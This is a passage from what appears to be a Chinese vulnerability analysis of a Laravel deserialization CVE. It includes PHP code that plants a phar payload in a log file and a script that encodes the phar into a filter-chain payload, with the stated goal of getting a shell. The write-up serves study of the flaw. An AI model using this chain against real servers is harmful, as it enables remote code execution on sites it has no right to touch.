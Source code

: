 然后我们尝试建立一个新的 log 文件循环调用 phar 文件

```
$code = base64_encode(file_get_contents("./ricky1.phar"));
$c = new MockTrait("phpinfo(); echo 'Ricky in serialize!'; file_put_contents('/var/www/html/storage/logs/ricky.log',base64_decode('`{`$code`}`'));");
```

然后按照上面的步骤触发反序列化

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01275aa35bf815091f.png)

然后触发我们的另一个 log 文件进行 phar 反序列化

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t012b7d031838602509.png)

这样就实现了循环调用的 shell

**疑点: phar完成转换后payload太长了能否截断上传?**

因为是 base64 字符, 首先至少要满足能被 4 整除, 然后再尝试上传拼接的 payload, 我就对了一个比较短的 exp 进行了二次分割上传, 发现截断应该是解码后产生了换行, 文件损坏了就无法执行 phar 反序列化了

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t012ceca5ff47f58e7a.png)

如果网站有字数上传限制的话那么可能就无法成功执行

最后再附上一个可以将payload直接转换后写入文档的文件, 制作好以后就可以直接生成payload

```
&lt;?php
function TransferPhar($file)`{`
    $endfile = fopen("phar.txt", "w");
    $raw = base64_encode(file_get_contents($file));
    $result = array();
    for($i = 0; $i &lt; strlen($raw); $i++)`{`
        $result[$i] = "=" . strtoupper(dechex(ord($raw[$i]))) . "=00";
    `}`
    fwrite($endfile, implode($result));
    fclose($endfile);
`}`
TransferPhar('./ricky.phar');
```



## 小结

总结一下:
- 第一步做的是建立 log 文件, 也就是使 `file_get_contents()` 读取文件报错得到 log 文件
- 第二步是清空 log 文件, 通过报错上传我们的payload, 然后就是经过多个过滤器的篡改得到 phar 文件
- 第三步是执行 phar 反序列化拿到shell
总体来说 laravel 反序列化考的还是对 POP 链的挖掘, 这次的 CVE 相当于多了一个无形的反序列化点, 多个过滤器配合过滤也是十分巧妙, 也算是进一步对 laravel 框架有了个全面的了解.

感谢各位读者可以耐心地读到这里, 希望您对该漏洞有了更深刻的认识, 可能有还没汇总全的, 希望各位师傅踊跃提出!
